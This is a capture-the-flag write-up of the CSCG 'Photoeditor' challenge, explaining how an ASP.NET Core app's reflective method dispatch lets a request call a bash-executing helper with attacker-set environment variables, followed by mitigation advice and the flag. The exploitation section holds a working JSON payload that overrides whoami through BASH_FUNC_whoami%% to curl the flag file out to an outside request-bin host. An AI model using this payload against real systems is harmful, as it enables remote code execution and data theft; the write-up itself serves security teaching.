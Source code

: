 ```yaml
---
title: Photoeditor
author: Adrian Junge
description: Recently I learned ASP .NET Core and boy, it's so magic! Dependency injection, dynamic routing, interfaces everywhere. But for me, it wasn't dynamic enough. So I extended the framework and now I got all the dynamic in the world I could wish for. That surely didn't introduce any vulnerabilities, right?",
categories:
    - Web
    - .NET
year: 2024
---
```


# TL;DR
    **- Challenge Setup:** `.NET` web application written in `C#` allowing image uploads
    **- Key Discoveries:** Image manipulation is done by dynamically calling functions
    **- Vulnerability:** Unsanitized user input is used to dynamically call functions
    **- Exploitation:** Calling `GetUsername` method allows us to set arbitrary env vars and thus overwriting the functionality of arbitrary commands e.g. via `BASH_FUNC_whoami%%`

# 1. Introduction<a name="introduction"></a>
This challenge was about some interesting dynamic implementation to process user generated input calling appropriate functions in the application:

```
Recently I learned ASP .NET Core and boy, it's so magic!
Dependency injection, dynamic routing, interfaces everywhere.
But: For me, it wasn't dynamic enough.
So I extended the framework and now I got all the dynamic in the world I could wish for.
That surely didn't introduce any vulnerabilities, right?
```


# 2. Reconnaissance<a name="reconnaissance"></a>
Looking around on the webpage you have access to, you can play around uploading some pictures and editing these with special options.

![rickroll](ctf/writeups/cscg/photoeditor/rick.png "rickroll")

Uploading pictures is usually very interesting by giving a nice attack surface. But having a look at the **C#** code you realize the picture is never uploaded as a file to the server. It is just getting cached in the memory and there being modified directly. Looking through the source files one of them looks very interesting. One of the controllers is executing some bash command with arbitrarily set environment variables. This might be useful later, although just being able to execute `whoami` doesn’t seem that interesting at first...


```c#
public String GetUsername(Dictionary<String,String> env) {
    Process process = new Process();
    process.StartInfo.FileName = "bash";
    process.StartInfo.Arguments = "-c 'whoami'";

    foreach (var kv in evn)
    {
        process.StartInfo.EnvironmentVariables[kv.Key] = kv.Value;
    }

    process.StartInfo.UseShellExecute = false;
    process.StartInfo.RedirectStandardOutput = true;
    process.StartInfo.RedirectStandardError = true;
    process.Start();
    string output = process.StandardOutput.ReadToEnd();
    Console.WriteLine(output);
    string err = process.StandardError.ReadToEnd();
    Console.WriteLine(err);
    process.WaitForExit();

    return output + err;
}
```

By having a closer look at the rest of your code the `DynamicPhotoEditorController` seems very interesting. This controller defines the editing process of the image. The chosen editing action is part of the request and is being processed in an interesting way.

```c#
var actionMethod = this.GetType().GetMethod(photoTransferRequestModel.DynamicAction);
```

After some deserialization of the given request parameters the given action method is called with the request parameters.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

Definitely a way to make your application very dynamic – but also very vulnerable... These lines of code just takes the `DynamicAction` request parameter, maps it to an arbitrary method of the controller, and executes it. For example, rotating the image is done with the following request parameters:

```json
{
    "DynamicAction":"RotateImage",
    "Parameters":"[90]",
    "Types":null
}
```


# 3. Vulnerability Description<a name="vulnerability description"></a>
At first, it seems like there are no interesting functions to call but taking a closer look at the code you realize the `DynamicPhotoEditorController` is inheriting from the `BaseAPIController` which implements the `GetUsername` function. So maybe you can call this one and make the application execute `whoami`? The given `DynamicAction` is not being sanitized and validated by the server. By setting `DynamicAction` to `GetUsername` you get:

```json
{
    "base64Blob":null,
    "error": "Object of type 'System.Int64' cannot be converted to type 'System.Collections.Generic.Dictionary`2[System.String,System.String]'."
}
```

Although it is just throwing an error hinting some issues with converting some types, this seems promising. It seems like it is having problems calling the `GetUsername` function because the parameter got the wrong type. There is an example usage of the `GetUsername` function in the `HealthController`. By setting the `Types` field to `System.Collections.Generic.Dictionary'2[System.String,System.String]` and the `Parameters` field for the environment variables correctly:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"PATH\":\"/usr/bin\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you unfortunately get another error:

```json
{
    "base64Blob":null,
    "error":"Unable to cast object of type 'System.String' to type 'SixLabors.ImageSharp.Image'."
}
```

But having another look on the code it seems like the `whoami` command must have been executed. This error must be part of the editor controller. Right after calling the action method, the result is converted to `Image`.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

But what now?


# 4. Exploitation<a name="exploitation"></a>
Only being able to execute some hard-coded commands like `whoami` and being able to set the environment variables can’t be enough for RCE right? But indeed it is enough! After searching for some weird bash environment variables I found something interesting. By setting `BASH_FUNC_whoami%%=() { id; }` you could override the behavior of the `whoami` command executing for example the `id` command. By setting the request parameters like following:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"BASH_FUNC_whoami%%\":\"() { curl -d @flag https://...pipedream.net; }\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you can extract the flag to your request bin

![pastebin](ctf/writeups/cscg/photoeditor/flag_pastebin.png "pastebin")

There are some other solutions with different bash environment variables like `BASH_ENV` and `LD_PRELOAD`.


# 5. Mitigation<a name="mitigation"></a>
This is clearly a problem of the implementation. At least some input sanitization and validation of the `DynamicAction` parameter should have been added like limiting the allowed character, length etc. But input validation should never be the only security measurement. With some weird edge cases an attacker could still bypass it. Another option would be some kind of static mapping from parameter to function. Moreover executing shell commands via the code is a bad idea. There are most of the time safe built-in functions in **C#** doing the same job. Also setting the environment variables dynamically can lead to security issues as already described. Setting the environment variables should be part of the deployment e.g. in a docker container and not part of the code.


# 6. Flag<a name="flag"></a>
CSCG\{AppSec\_Chall3nge\_disguised\_as\_W3b\_sorry:)\}
